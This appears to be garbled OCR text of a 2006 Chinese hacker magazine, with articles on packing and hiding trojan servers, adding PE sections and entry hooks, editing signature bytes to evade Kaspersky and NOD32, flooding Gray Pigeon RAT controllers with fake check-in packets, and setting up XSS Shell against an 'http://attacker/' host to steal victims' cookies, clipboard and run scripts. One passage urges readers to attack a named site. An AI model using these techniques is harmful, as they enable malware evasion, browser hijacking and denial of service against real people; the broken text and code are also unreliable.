| 00 | 01 | 02 | 03 | 04 | 05 | 06 | 07 | 08 | 09 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 | 20 | 21 | 22 | 23 | 24 | 25 | 26 | 27 | 28 | 29 | 30 | 31 | 32 | 33 | 34 | 35 | 36 | 37 | 38 | 39 | 40 | 41 | 42 | 43 | 44 | 45 | 46 | 47 | 48 | 49 | 50 | 51 | 52 | 53 | 54 | 55 | 56 | 57 | 58 | 59 | 60 | 61 | 62 | 63 | 64 | 65 | 66 | 67 | 68 | 69 | 70 | 71 | 72 | 73 | 74 | 75 | 76 | 77 | 78 | 79 | 80 | 81 | 82 | 83 | 84 | 85 | 86 | 87 | 88 | 89 | 90 | 91 | 92 | 93 | 94 | 95 | 96 | 97 | 98 | 99 |

| 00 | 01 | 02 | 03 | 04 | 05 | 06 | 07 | 08 | 09 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 | 20 | 21 | 22 | 23 | 24 | 25 | 26 | 27 | 28 | 29 | 30 | 31 | 32 | 33 | 34 | 35 | 36 | 37 | 38 | 39 | 40 | 41 | 42 | 43 | 44 | 45 | 46 | 47 | 48 | 49 | 50 | 51 | 52 | 53 | 54 | 55 | 56 | 57 | 58 | 59 | 60 | 61 | 62 | 63 | 64 | 65 | 66 | 67 | 68 | 69 | 70 | 71 | 72 | 73 | 74 | 75 | 76 | 77 | 78 | 79 | 80 | 81 | 82 | 83 | 84 | 85 | 86 | 87 | 88 | 89 | 90 | 91 | 92 | 93 | 94 | 95 | 96 | 97 | 98 | 99 |

```
// 压缩文件存放
char LocalPath[MAX_PATH];
GetDirectoryName(NULL,LocalPath);
strcat(LocalPath,"SERVER.EXE");
// UPX 路径
char UpPath[MAX_PATH];
strcat(UpPath,"upx.exe");
// 设置压缩等级
PROCESS_INFO pi;
STARTUPINFO si;
memset(&si,0,sizeof(si));
si.Flags=STARTF_SHOWWINDOW;
si.ShowWindow=SHOW_HIDE;
// 创建进程
CreateProcess(NULL,UpPath,NULL,NULL,FALSE,NORMAL_PRIORITY_CLASS,NULL,&si,&pi);
// 等待结束
WaitForObject(pi.hProcess,INFINITE);
DeleteFile(UpPath);
// 下面是UPX的程序
char LocalPath[MAX_PATH];
GetDirectoryName(NULL,LocalPath);
strcat(LocalPath,"SERVER.EXE");
GetDirectoryName(NULL,LocalPath);
strcat(LocalPath,""); 
PROCESS_INFO pi;
STARTUPINFO si;
memset(&si,0,sizeof(si));
si.Flags=STARTF_SHOWWINDOW;
si.ShowWindow=SHOW_HIDE;
// 创建进程
CreateProcess(NULL,UpPath,NULL,NULL,FALSE,NORMAL_PRIORITY_CLASS,NULL,&si,&pi);
// 等待结束
WaitForObject(pi.hProcess,INFINITE);
```

## 本地程序进行压缩

这里介绍用 `UPX` 的压缩。实验是一个 76 字节的程序，首先要把 76 字节的程序转换成资源文件，如图所示，可以看到减少 72 字节。它通过相同的方法将资源转换成程序，如图所示，这里可以发现只有一个 `UPX` 文件了。如果文件修改时可以使用 `UPX` 来压缩它。具体的程序实现如下：

| 00 | 01 | 02 | 03 | 04 | 05 | 06 | 07 | 08 | 09 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 | 20 | 21 | 22 | 23 | 24 | 25 | 26 | 27 | 28 | 29 | 30 | 31 | 32 | 33 | 34 | 35 | 36 | 37 | 38 | 39 | 40 | 41 | 42 | 43 | 44 | 45 | 46 | 47 | 48 | 49 | 50 | 51 | 52 | 53 | 54 | 55 | 56 | 57 | 58 | 59 | 60 | 61 | 62 | 63 | 64 | 65 | 66 | 67 | 68 | 69 | 70 | 71 | 72 | 73 | 74 | 75 | 76 | 77 | 78 | 79 | 80 | 81 | 82 | 83 | 84 | 85 | 86 | 87 | 88 | 89 | 90 | 91 | 92 | 93 | 94 | 95 | 96 | 97 | 98 | 99 |

|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|

| 00 | 01 | 02 | 03 | 04 | 05 | 06 | 07 | 08 | 09 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 | 20 | 21 | 22 | 23 | 24 | 25 | 26 | 27 | 28 | 29 | 30 | 31 | 32 | 33 | 34 | 35 | 36 | 37 | 38 | 39 | 40 | 41 | 42 | 43 | 44 | 45 | 46 | 47 | 48 | 49 | 50 | 51 | 52 | 53 | 54 | 55 | 56 | 57 | 58 | 59 | 60 | 61 | 62 | 63 | 64 | 65 | 66 | 67 | 68 | 69 | 70 | 71 | 72 | 73 | 74 | 75 | 76 | 77 | 78 | 79 | 80 | 81 | 82 | 83 | 84 | 85 | 86 | 87 | 88 | 89 | 90 | 91 | 92 | 93 | 94 | 95 | 96 | 97 | 98 | 99 |

| 00 | 01 | 02 | 03 | 04 | 05 | 06 | 07 | 08 | 09 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 | 20 | 21 | 22 | 23 | 24 | 25 | 26 | 27 | 28 | 29 | 30 | 31 | 32 | 33 | 34 | 35 | 36 | 37 | 38 | 39 | 40 | 41 | 42 | 43 | 44 | 45 | 46 | 47 | 48 | 49 | 50 | 51 | 52 | 53 | 54 | 55 | 56 | 57 | 58 | 59 | 60 | 61 | 62 | 63 | 64 | 65 | 66 | 67 | 68 | 69 | 70 | 71 | 72 | 73 | 74 | 75 | 76 | 77 | 78 | 79 | 80 | 81 | 82 | 83 | 84 | 85 | 86 | 87 | 88 | 89 | 90 | 91 | 92 | 93 | 94 | 95 | 96 | 97 | 98 | 99 |

图2

## 编程解析

图3是上面程序运行时的截图。怎么样，还可以吧？最后我们有一个关键的释放资源的函数再给大家介绍一下如下：

```
if (file.Open(filepath, CFile::modeCreate | CFile::modeWrite))
{
    file.Write(pMemPtr, size);
    file.Close();
    
    UnlockResources(handle);
    return TRUE;
}
return FALSE;
```


```
BOOL LoadSource(UINT resource_id, const char* type, const char* filepath)
{
    // 获取资源
    HRSRC hsrcrc = FindResource(NULL, MAKELSRC(resource_id), type);
    // 加载资源
    HANDLE handle = LoadResource(NULL, hsrcrc);
    // 写入文件
    BYTE* pMemPtr = (BYTE*)LockResource(handle);
    CFile file(filepath);
```

通过这两个步骤，基本上你家的服务器就会很小了，然后用它给家里的下载器就可以写快了。

最后和大家说调试的难题，其实程序能用就可以了，不用太过追求完美，我们可以说：如果你想写一个下载器，从 `Socket` 写起，完成这个程序至少要一个月吧，如果是用 `Win` 写的话，下午就能搞定，程序要还是考虑考虑的问题，否则写出来的东西就跟不上需求了，也就没有意义了，如果大家对本文有什么疑问，可以去爬虫或者联系我：`http://blog.loyer.sooh.com`

## 适合编程爱好者的前置知识


图/文 夕享

朋友我我要 `PE` 的代码的学习，其实是发了一个从网上下载的国外病毒给它，这段代码主要演示了如何感染病毒，让病毒程序运行前就执行我的代码。这段代码经过了修改，让病毒的主宿程序在运行前先执行病毒文件。


并不是针对感染病毒的，可以说是一种查杀病毒的实战技巧。我之前写过一篇文章《杀病毒的秘密接触——PE结构分析技术在反病毒中的应用》，其中，提到了处理文件程序时如何快速判断文件是否是病毒感染的，杀病毒时发现文件是有病毒感染的，通常在它所指的相对地址比靠靠前，在检测文件末尾，找到最后一个内容内，如果这个PE文件的入口指向不是这样的，那么说明这个文件被病毒感染的嫌疑。为了对付这种病毒的种类，病毒技术研究我们出了入口锚（EPO）技术，我们这里不

后期我发现我这段代码被病毒抓了，说是：

```
"type_win32"
```

病毒，第1号！它代码执行了一行修改的指令，依然被杀。实


图1

```
_type_win32
```

# PROGRAMMING ANALYSIS

具体EPO技术，是针对可以增加一种简单的方法——增加一个空隙，增加空隙或一些PE标记。这些在黑防病毒杂志中介绍过，这里就来介绍。由于本文不是介绍PE感染的方法，下面以后介绍增加空隙的方法。

```
// Method: AddEmptySection
// Return: BOOL
// Parameter: PCTSTR 指向PE文件的字符串指针
//           UINT Size 增加空隙的单位
BOOL AddEmptySection(PCTSTR pFile, UINT dwSize) {
    HANDLE hFile = NULL;
    HANDLE hMapping = NULL;
    LPVOID pPointer = NULL;
    DWORD dwSize = NULL;

    // 打开文件
    hFile = CreateFile(pFile, GENERIC_READWRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_FLAG_SEQUENTIAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        return FALSE;
    }

    // 映射，创建一个可读写的内存映射
    hMapping = CreateFileMapping(hFile, NULL, PAGE_READWRITE, 0, 0, NULL);
    if (hMapping == NULL) {
        CloseHandle(hFile);
        return FALSE;
    }

    pPointer = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, 0);
    if (pPointer == NULL) {
        CloseHandle(hMapping);
        CloseHandle(hFile);
        return FALSE;
    }

    IMAGE_HEADERS* pHeader = (IMAGE_HEADERS*)pPointer;
    if (pHeader->Signature != IMAGE_NT_SIGNATURE) {
        UnmapViewOfFile(pPointer);
        CloseHandle(hMapping);
        CloseHandle(hFile);
        return FALSE;
    }

    // 修改PE头
    if (!((IMAGE_NT_HEADERS*)((char*)pPointer + pHeader->SizeOfHeaders))->OptionalHeader.SizeOfImage += dwSize) {
        UnmapViewOfFile(pPointer);
        CloseHandle(hMapping);
        CloseHandle(hFile);
        return FALSE;
    }

    // 增加空隙
    // ... (此处省略代码)
    return TRUE;
}
```

增加空隙是一种非常简单的方法

```
PIMAGE_NT_HEADERS pntHeader = (PIMAGE_NT_HEADERS)(pData + IMAGE_DOS_HEADER);
if (pntHeader->Signature != IMAGE_NT_SIGNATURE) {
    return FALSE;
}
// 检查空隙足够的
if (pntHeader->OptionalHeader.NumberOfSections + 1 > size) {
    return FALSE;
}
//...
```


另外，你可以参考示例尝试一下，结果显示程序成功了，病毒并没有感染。增加空隙的方法也是常用的，我们经常用空隙来扩大区域。此处这段代码可以写出一个空隙的方法，有兴趣的可以尝试一下。

# HACKER ATTACK & DEFENCE

适合读者：工具爱好者、网络爱好者

前置知识：无

看了很久的黑防，读了少无，关于僵尸防御的，在网上搜索了两篇文章，其中之一介绍的僵尸头部失效了，另外一种方法怎么测都没上线。大家发现我做这个程序，今天觉得，终于完成了一个针对最强的DDoS软件的免杀程序。


图1

## 僵尸防御

自己挖花插件，毕竟对上流加花插件都失效了；对于鸟而言，自己挖花插件是一件困难的事，但是我独自发现僵尸防御时插件失效之后还是问题，最有效的方法就是修改特征，很多时候修改特征可能不需要重新汇编和编写插件，还能看到简单的字母或者`FF00`替换它。先配置服务器，由部署来测试，测试的是大家支持一下搞的好，之后失效后还能正常运行了，然后我们来测试是否上线（如图所示）。


图4

方法，使用查询要选择的字段，写上OD行，在多个字段中插入点如图所示，此时会在本地生成`OUTPUT`文件，用僵尸替换。二次处理，再用卡巴斯检测，如果还没检测到此时特征区域，在打开的窗口中点击右键出现的地方，找到定位位置并修改特征，减少特征数量具体的失效了）


图2


图3

100，50，77），找到，重复上述操作直到长度为7，生成的特征就不会被失效了；如图所示，再次定位地址的特征，这里还有新的特征，这个新特征，或许可以用僵尸AS来加密特征（很多人是很喜欢用OD插入，有时候会发现不少碧的死壳，记得注意的一点是，如果大家不要用自己的方法来破解，一定要先加上插件，否则失效后还能正常运行了，然后我们来测试是否上线（如图所示），接下来就是定位位置了，考虑到哪里对特征的定位不太准，这简单的办法一定能修改特征


修改僵尸特征改进后的答案是肯定的。这里我直接告诉大家，把`A00F858`的特征修改成第一个`A00F96C`的特征就可以通过卡巴斯基的迫杀。简单就是如图5和图6所示。 

怎么样的？轻松放过了两个杀手，根本用不霍霍破坏头皮痒七一句一起来就去了的，因为这个方法能让我们朋友害怕，老家可以拿准，这里就以这两个杀手作为例的，其他的可以用相同方法来改进。


可能的首领是一个一个杀手组件定位麻烦，没来说，接下来就要出一个沉头的难题MaskP2，MaskASPoth2.3.28 Modified了，如图10所示，前端这其实很简单，就是一个加巧的，有八个没有的选择我，我一般的 Import Information，感觉最好，后者一个是选不响的蛋，这里之所以要选这款软件就是为了免免，因为它由于没有效果好撞还能防住它，这一点是很重要的，当大家也可以想到的其他的吧，千万不要把杀手杀掉了，然后在运行模式下开启一个进程，把模式设为运行的，从我们面前的选单上就可以选出来。

## 重启杀AV

AV蛋很容易识别杀码第一我想要改它是很容易，一般都能用到定位特征，后面改字母小小的方法来说是复杂的，因为软件组件的特征基本上是复杂的，只要稍微改一个字母，把最大的AV换成防护绿，让杀毒变成绿色的。我下面就不多说了，直接看这一表，如果所示所示直接就是了，如果码是`E0000F66`

```
0x00000F66
处理CD32Asm.exe
来到定位特征地
直接修改一个FF改成
00，即可完成杀灭。
```


此，我们的毁的特征也改成功了，生成的文件之后全被拦截，上线过这里我也想补充一点的，是关于杀手的主动的问题，我也经常遇到这个问题过，这里的免之的文章或者软件，我们都是的而且没有，还是让杀毒变成系统这些必须做的就可以杀掉的。

| 属性 | 创建日期 | 修改日期 |
|---|---|---|
| 创建 | 2006-11-29 10:38 | |
| 修改 | 2006-11-29 10:38 | |


实际上不可行的，最好的办法是修改进程，让病毒在生效前消失，在运行之后后再回来，让卡巴基工作处理挺困难的，因为在一个朋友写了杀手的时候，关闭，再运行一次，还不错，这样就不确定了，病毒在这里也想要这样的方法可以让我们赢，马上不要被杀掉了，大家多了`www.hacker.com` ©2006

# HACKER ATTACK & DEFENCE

邮箱：butterfly@hacker.com

适合读者：木马爱好者

前置知识：无

## 筹备与木马

反向木马的攻击策略图/文yuong作为内网最著名的反向木马，流非常广泛，作为广大防火墙超级武器相比，简单渗透木马调不识黑客越来越热闹了。2006年月，这种木马在网中出现了一次，专门它在网上监控进行说明，对于反向木马的通信进行了说明，我们的控制端开启了端口，让服务端当作客户端的形式连接起来，一旦主机开启了放了木马，我们就受到可能的通过什么方法来进行防御？对服务器运行的服务的方法有许多一类是通过服务器漏洞，针对正在运行的漏洞，就是入侵登录、权限绕过等等可以达到目的，第二类就是使用木马来正在运行的方法。由于我们有进行分析的水平，只能够用比较暴力的攻击方法。针对防御方法进行了分析，已经给出了工具及其设计思路，以便便对攻击方法感兴趣的读者提供。通常的防御主要是使用多台主机发送大量的流量，造成目标崩溃，无法进行防御这种是网络层的攻击，效率比较低，是双方资源的对比，和对防御攻击方法在应用层面的差异，当我们向控制发送数据包时，让其处理这些信息，劫尽。如果图1和2所示，从客户端的角度分析反向木子的上线

图1 2006上线数据

图2 2006上线数据

2006：

- 1）建立连接
- 2）向控制端发送上线数据包
- 3）等待接收控制命令。

《黑客攻防》2006年华华丛上版 18

## 灰鸽子2006

1） 建立 TCP 连接

2）向控制端发送前导码 `0x00,0x00,0x00,0x06`

3）向控制端发送上线数据包

4）等待接收控制命令

我们可以看到灰鸽子2005和2006两个版本的在线过程是完全相同的。它们和建立TCP 连接的基本信息是相同的，向控制端发送一个特定的受控主机的数据包，通知控制侧的上线连接。这些数据包在表面面上就是受控主机信息的连接标识，通过我们可以对受控主机信息进行任何操作，不需要对上线连接进行调试。它发送给已有的符合上线连接数据包的所有数据都处理，我们就可以建立连接并向发送数据给入侵者客户端，或者在建立连接后向连接发送大量数据，这样就能对控制侧提供服务了。为了验证这种方法，我通过伪装主机上线的过程，我使用的编译环境是C++使用`Socket`来实现。灰鸽子2005的上线过程如下：

从首页《IM》和XML注释的受控主机信息可以看出，其中受控主机信息是可以被修改和删除的，如果我们选取“<H>”或“<IM>”在“<IM>”之间加上任意字符，将其转换为十六进制并发送到控制端服务器192.168.168.188，8000，伪造一个虚假的客户端。具体的实现代码如下所示：

```
int result = WSAStartup(MAKEWORD(2, 2));
if (result != 0) {
    printf("Error at WSAStartup: %d", result);
}
// 创建socket
socket client;
client = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
if (client == INVALID_SOCKET) {
    printf("Error at socket: %d\n", getLastError());
    return 0;
}
// 配置socket
sockaddr_in client;
client.sin_family = AF_INET;
client.sin_addr.s_addr = inet_addr("192.168.168.188");
client.sin_port = htons(8000);
// 连接到服务器
if (connect(client, (struct sockaddr *)&client, sizeof(client)) == SOCKET_ERROR) {
    printf("Error at connect: %d\n", getLastError());
    return 0;
}
// 发送上线数据
int bytes;
int result = send(client, send, strlen(send), 0);
if (result == SOCKET_ERROR) {
    printf("Error at send: %d\n", getLastError());
}
// 接收上线命令
result = recv(client, buf, sizeof(buf), 0);
if (result == SOCKET_ERROR) {
    printf("Error at recv: %d\n", getLastError());
}

return 0;
}
```

# HACKER ATTACKS & DEFENSE

| 目录内容 | 注册测试脚本 | 注册扫描器 | 奇雳帝国 |
| --- | --- | --- | --- |
| 文件管理器 | | | |
| 自动登录调试 | | | |
| 攻击目标主机 | | | |
| 灰鸽子2005 | | | |

- 灰鸽子2006
- 测试主机4

但是用这种工具只能在控制端制造一个虚假信息，威力有限。但是如果我们有真实的想法，我们可以通过线程来实现多个虚假信息，并用MFC为攻击生成一个真实的DoS形状，如图5所示，本机工具对灰鸽子2005以及以下灰鸽子2006的攻击有效，针对其他目标的攻击则会在后的版本中推出。


图5

我们这里来测试一下工具的攻击效果吧。由于我们在主主机182.168.1.168上开启控制端的测试，端口为8000，首先对灰鸽子进行测试，连接IP、端口和流量，以及攻击目标类型。这里是灰鸽子2005，如图6所示，攻击开始后，受攻击的灰鸽子2002控制可以看到上线信息，如图7。


图6


图7

我们可以打开灰鸽子DoS工具来进行攻击，直到在控制上显示连接失败，由于我们的工具并不占用资源，控制端占了大量的流量。

| 进程名 | 用户 | CPU | 状态 |
| --- | --- | --- | --- |
| `ieplore.exe` | Administrator | 00 | 85230 |
| `con.exe` | Administrator | 01 | 324 |
| `logmanager.exe` | Administrator | 02 | 3788 |
| `txd.exe` | Administrator | 00 | 162 |

图8

使用该工具灰鸽子2006的攻击效果非常明显，我们可以直接连接灰鸽子控制端程序崩溃，由于控制端的资源耗尽导致控制程序崩溃，具体的攻击效果可能被服务器提供的连接杀死，这样就不再运行了。

在对连接的许多域名攻击中，我们发现它们的连接都是没有用的，即使我们可以看到本文对于的攻击的方法。虽然这次的攻击并不是目标所在的流量太大的流量，但是可以使用木马设计的漏洞，如果能找到一种方法来定位控制端的地址、端口和类型，木受者就可以对控制端进行有效的攻击。此外，我找到了一个很臭名的木木同学的域名中找到IP页面地址网址：`http://www.selang.com/ip.txt`，版本为2005，现在不过不是经常开放，最近木木工具是众矢之的，有空的话大家也可以攻击它呢！


图5

www.hacker.com

# HACKER TOOLS ATTACK&DEFENSE

适合工具爱好者

前置知识

## 跨站脚本攻击


文/图 侯魔力

XSS站脚脚本攻击属于被动攻击，对于急于请求的朋友来说，往往不会被拦截，而喜欢挂马的朋友则喜爱，通过构造特殊的手段，再利用该页面的代码在被攻击者的一页页面中，当有当人在浏览该页面时，在后就已经执行了内部的代码，对于被攻击者来说，根据攻击的性质，这非常重要，比如利用XSS注入信息在浏览器的调试找到木马，另一种方法是利用对过滤的各种手段（如ASP、PHP、JS等）来构造一个完全达到所目的的页面，而是——

对第一种XSS攻击来说，由于问题是容易见的，当你的页面看起来有问题时，发现发现是由于系统的漏洞、后链、渗透以及病毒爆发，这就要求你，首先要确保页面没有进行任何防护措施，然后下载脚本没有被过滤掉的后，下载了脚本后链执行你的脚本就会被拦截你，而且木马和脚本一般不一样，在浏览器的调试时会发现有异常的特征（如我们被攻击的人发起的请求），而一种脚本方式就不够了，它基本够用。


## XSS Shell 的配置

XSS Shell压缩后在目录下有3个文件夹和两个文件，是一个TXT文件，是一个ASP文档，还有一个文件`xsshell`和`xsshell.asp`放在你的服务器上，把文件放在你的服务器上，选择一个隐蔽的目录，确保其被访问。

1) `xsshell.asp`的配置，找到“SERVER CONFIG”部，进行配置。

```
SERVER=http://attacker/
File:name=shell
SERVER=xsshell.asp?id=
Ver_Args=
Connector file (can be php, asp, exe)
CONNECTOR=xsshell.connector
Commands file (can be php, asp, exe)
with implementation
COMMANDS_URL=shell
```

定义好规则后，我们把服务器的后端代码就可以执行了，如`http://attacker/127.0.0.1/`，为了保险起见，最好修改一下的Server是ME_

2) `xsshell.db`的配置，这里需要修改数据库的路径和登录密码


XSS Shell作为一个强大的后门和远程管理工具，这个脚本是PHP-XSS `http://sourceforge.org/net/`，XSS Shell如同发送和接收数据，并且被注入代码的页面后，这里提到大家的是被攻击者不一定，服务器就是一种技巧，真正的攻击是浏览器上跳转到目标页面。

# HACKER ATTACK&DEFENCE

```
DATABASE CONFIGURATION
DBPATH = "db.mdb";
Activity = "10";
SQLSERVER = "";
SQLSERVER = "";
```

在`DBPATH`中配置的数据库地址，将登录用户名改为`root`，搜索`root`替换为自己的密码测试成功该页面提供了一个`sample_txt`文件，从页面上可以看到这个文件的内容共有Web页，其中的`default.asp`后缀所示。


图1

`v=3369`。然后发表语句，图4所示。


图3


图2

看似正常的页面，实际上我们已经进入了需要的`http://127.0.0.1/sshell.asp?v=3369`。所以以后就可以在地址栏中直接输入这个地址。图2是SS Shell的地址：`http://[YOURHOST]/sshell/`访问后看到的都是我的计算机上的内容，由于我们再做一个实例。


图4

留言内容中的代码被拦截（没有任何显示），我发现了一个现象，比如我提交了一个`http://127.0.0.1/*sshell.asp?v=3369`的留言，如果我再次提交，下一次的留言就会隐藏或被拦截。我尝试了几个系统后发现，如果我换这种代码，甚至会找到漏洞！如图5所示，框内的代码是XSS攻击的功能。我们对其说明。

1) `getCookie()`这个功能用于获取Cookie，点击它后如图6所示，会出来的Cookies（跑到下方），这个功能非常有用的，比以前的前端授权漏洞就需要获取对方的Cookie。

2) `getSelfHtml()`这个功能用于获取用户的网页代码，简单直接测试一下就知道了。

3) `alert(<message>)`首先要确定自己的服务器IP。打开`CMD`输入`IPCONFIG`，找到自己的`src=http://127.0.0.1/sshell.asp?v=3369>src=http://127.0.0.1/*sshell.asp?`


图2

# HACKER TOOLS ATTACK&DEFENSE

（邮箱）butterfly@hacker.com.cn


| Command | Victims |
| --- | --- |
| `L.U.S.E::27484` | `Victim` |


7) `getClipboard()`这个功能可以获取受者的剪贴板内容，目前对IE有效。

| Parameters | |
| --- | --- |
| `crash` | Crash's victim CPU and force to crash/crash.. |

8) `getIP()`这个功能可以获取受者的IP地址，目前没有限制，只有在Mozilla+JVM有效。

9) `getpage()`这个功能是获取受者的身份标识页，在参数中嵌入URL，参数可以是绝对的地址，或者通过发表出来，我们可以使用相对地址，通过请求的页面如图11所示，在XSS漏洞的下面有一个输入小控件，图中所示的切片结果是为路径的原因，因此此功能可以用它通过某些漏洞来提升利用效率。


这个功能就是知道向对方发送消息的，利用害者的`alert`列表，对对方所显示的消息是标识的框显示，如图10所示，输入内容的管理器的地址中写入，如所示。

4) `eval(<javascript>)`这个功能可以在受者的浏览器里执行任意脚本，内容是参数传入的。

5) `prompt('<javascript>')`这个功能可以在受者的浏览器里弹出框。这个功能很好用，在害者的窗口中显示内容


Distributed Denial of Service attack (DoS) in URL to cause Crash(Crash's victim CPU and force to crash/crash..) `eval('<javascript>')`

6) `getLog()`这个功能可以记录受害者的情况并将其存在。另外，XSS攻击触发命令后会有机会出现图12所示的轨迹，由于它是攻击的，我们不是它很方便的武器，它给我们提供了一种思路，让大家以后在入侵中使用试试。


# HACKER TOOLS ATTACK&DEFENSE

版权所有2006 黑客第38页

适合读者：程序员

前言：如

功能简单、强大并且免费的版本，作为众多爱好者的选择。使用大众已经符合条件，在开放的服务器范围内，我们可以进行任意连接的操作来实现。

## 添加口

首先运行`ZeroAdd`插件，按照要求创建一个服务器程序，注意不要再次处理。`ZeroAdd`插件后点击`Pick a file`选择程序，点击`Enter a name for the new server`设置新建连接的名称可以任意的，但是如果有多个的话，这里要设置在`Number of bytes to add in hook`框输入足够的字节，数字不需要太大了，这里设置为100后，点击`Add new section`就会看到连接成功地添加了。

- `Enter your input section`
- `Pick a file`
- `Enter a name for the new server`
- `Enter of bytes to add in hook: 100`


图1

刚刚删除了一个连接口，所以接着运行PE编辑器点击`Name`最好的PE文件操作之键，在弹出的PE编辑器按钮选择服务器程序，在弹出的PE编辑器窗口中心点击插入，在弹出的数据窗口找到名称为`make`这一项，地址为`00C2000`，如图。


图2

在这个区域再次添加连接口，先对服务器程序的入口进行修改，这里我们将原始的地址改为新的地址，在PE编辑器窗口点击入口地址，将原来的地址改为`00C2000`，然后保存后即可。


图3

## 加 Hook

虽然有很多加工口，但是通过进行加工不一定都能成功，还是通过手工处理，程序通过反汇编`ollyDBG`在服务器程序中，程序会自动留在新的入口`00C2000`，如图4所示。


图4

处理完毕，从这一行向下选择，点击右键按钮二次菜单的使用`NOP`填充命令，将这些代码展开然后选择右侧菜单中的汇编令，汇编窗口中依次选择右侧跟随

```
push ebp
move ebp, esp
add esp, 0
nop
nop
jmp 000A1E48 (函数的入口点)
```

修改完成后，选择右侧菜单中的复制到可执行文件->选择菜单，“命令”，在新的空白窗口中点击右键，“保存存档”我们将修改过的程序后存即可。

## 二次加壳

由于某些杀毒软件采用了特殊特征，为加过黑病毒的名声之外，由于这一次无法通过杀毒软件的检测，我们还要进行二次加壳，选择直接连接加壳的方法，让马病毒超级加壳，它是一个刚编译的加壳组件，将服务程序直接重定向到启动程序的界面进行挂接。


图5

再次对服务程序还原，这里的还原程序是上次应用程序加壳的。运行以后点击“选择程序”，还原程序，点击“确定”就可以进行加壳了。这对于服务程序处理了更好，还有70%的服务程序占用约400KB如图所示。


图6

为了生成的壳程序在短时间内不会被杀毒检测，我们再进行一些处理，为了更后保护服务程序，MaskPE是一个自动修改软件的软件，可以用于生成的壳的木或病毒。用MaskPE


图7

图4所示。


# 打造自己的加毒程序

适合读者：爱好者

前置知识：无

如今的各种杀病毒方法已经非常老旧，但是“加毒”仍然是一个被人津津有道的方法。因为这种方法简单易用，但对于大家都想过这种办法，以将杀毒软件加入杀病毒名单中，或者大家在以后准备加毒时，选择使用一种不常见的病毒，或者一种密度比较高的病毒。那么，我们还能不能把那些被加毒的病毒改成一个免加毒的新病毒呢？我们我们就一起来解决这个问题。

## 原因分析

我们要找的特征并且要修改。在这里可以用加密来处理，最后点击“加毒”按钮进行处理。图1所示，最后我们用卡基对它进行处理，检测出两个病毒信息，图2所示，其中第二条特征代表了加毒程序：“”。

在以后准备加毒的时候，遇到过类似的情况。本文中，一个免加毒成功的案例，我们在后阶段可能会再加入一个杀毒程序，然后我们修改如何对它进行压缩处理。结果与我们预期的一，没有被加毒的病毒被杀除了；此外，由于加毒了病毒还会会被杀毒软件杀掉，因为杀毒的特征被暴露了。

但是杀毒软件并不是多么聪明的家伙，它们只会使用特征码，以及一般的特征码。然而病毒的特征码是什么？什么是杀毒病毒的特征呢？处理有没有更好的办法？比如，我们是不把加毒程序直接加入病毒库中。那么今天我们的思路就是：首先分析和提取加毒病毒的特征，通过修改这些加毒的特征，最终达到免加毒的目的。


## 操作步骤

第一步，我们选择一个被加毒的可执行文件。在这里选择了我的加毒程序，以及一个被要加毒的杀毒程序，这里选择的是产生加毒工具“仙虫”。我们先用加毒工具“仙虫”对程序进行病毒处理，然后运行加毒程序后，我们在文件中设置杀毒程序，接着把保护选项中的“MY检查检测”勾选掉。


第二步，其实的修改和目标文件的修改是一样的，区别就是现在是带病毒进行修改。我们利用工具`MYCYCLE`查找“仙虫”。运行`MYCYCLE`点击“特征”来选择病毒特征，并带有“保存”选项项的勾选。接着点击“目标”采用连续来设置分块目录，在“分块个数”项中设置分块的数量，可以根据自己的需要进行设置。设置完成后生成目录，就能在生成相同的服务器程序后，可以根据基准进行对目录查询，将将被删除的所有分块删除后返回到`MYCYCLE`界面，点击“二次处理”按钮后，将会提示找到一个偏移符`00007DEC_00000000`的范围，如图3所示。


第三步，下载来运行偏移转换器工具，或选择服务器程序后，填写分块偏移地址，这里就是`00007DEC`，找到偏移符，这样就得到了从偏移内容中的地址`00407BEC`，图4所示。


第四步：使用`OYICE`工具加入修改过的程序文件，这是我们要把它写到服务器被修改后的程序位址上，这里是采用一种方法：简单的办法是修改的特征，我们只需要对它的某一个被一个`OYICE`覆盖的前20行进行二进制的汇编操作，把原本的指令替换为相同的指令即可，这里就是我修改下方的代码：

```
004AA006 64:A10000000 MOV EAX,DWORD PTR FS[00]
004AA076 64:8925000000D0 MOV DWORD PTR [FS+04], ESP
```

把上面两个部分改为如下地址：

## 编写的特征

既然我们已经知道了修改的部分指令可以达到生效的效果，那么我们就直接在修改程序时，这样就可以避免以后再次修改同一指令，让我们可以直接再次修改同一指令，这样来加入的特征。

用一个十六进制编辑器`WinHex`，加入数据文件“幻想”，在搜索框中输入“搜索”查找十六进制特征值，命令在弹出的窗口中输入修改后的HEX进制`64 A10000000`，然后点击“搜索”进行替换，这里要大量特征，是HEX进制的。

> 当替换一个HEX数据后，点击替换特征将修改后的数据，点击“全部”或“替换”全部替换掉即可。

在“搜索”框中找到“替换特征”和“搜索替换”选项，在弹出的窗口里设置以前的和替换后的HEX数据，图5所示，替换完成后进行保存，再重用它对程序进行修改。

加载新特征是不是已经成功加载了？这次我们通过这个对字符进行修改，这样一个被拦截的程序改成了一个拦截的程序，从而不需要额外的工具去破解它了，只要你想要这种方法，也可以将其应用在任何被拦截的加入程序上。这样我们就可以拥有大量的特征，让我们开始之前，就可以足够的特征了。


## 免NOD3控制

适合场景：爱好者

前置知识：无

## 输入缓冲

## 实战派调试方法

